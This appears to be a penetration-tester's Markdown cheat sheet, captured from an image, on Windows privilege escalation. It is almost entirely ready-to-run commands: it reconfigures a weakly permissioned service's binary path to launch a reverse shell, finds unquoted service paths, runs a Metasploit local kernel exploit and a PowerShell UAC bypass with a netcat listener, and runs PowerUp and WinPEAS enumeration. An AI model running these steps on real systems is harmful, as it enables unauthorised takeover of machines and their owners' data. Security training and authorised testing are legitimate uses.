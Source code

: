 ## Insecure Service Permissions
```
# Check Permissions
accesschk.exe /accepteula -uvqwc user *

sc qc daclsvc

sc config daclsvc binpath="\"<location of reverse shell>""

# Start Service
net start daclsvc

# PowerUp.ps1
powershell import-module .\PowerUp.ps1;invoke-allchecks
```

## Kernel Exploits

[Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

```
$ python2 windows-exploit-suggester.py --update
$ python2 windows-exploit-suggester.py --database <xls filename> --systeminfo <systeminfo file>

# Metasploit Module
use exploit/windows/local/ms13_053_schlamperei
```

## Unquoted Service Path
```
# Find Unquoted Service Path
wmic service get name,pathname | findstr /v /i system32 | findstr /v \"

# Query
sc qc unquotedsvc

# View Permissions
icacls "<Location>"

# Write Permssion
accesschk.exe /accepteula -uvqdw "<Location>"

#PowerUp.ps1
powershell import-module .\PowerUp.ps1;Get-ServiceUnquoted
```

## Powershell UAC Bypass

[Powershell UAC Bypass](https://forums.hak5.org/topic/45439-powershell-real-uac-bypass/)

```
powershell -ep bypass .\escalate.ps1

nc -lvp 1234
```

## WinPEAS Script

[WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```
.\winpeas.bat
```
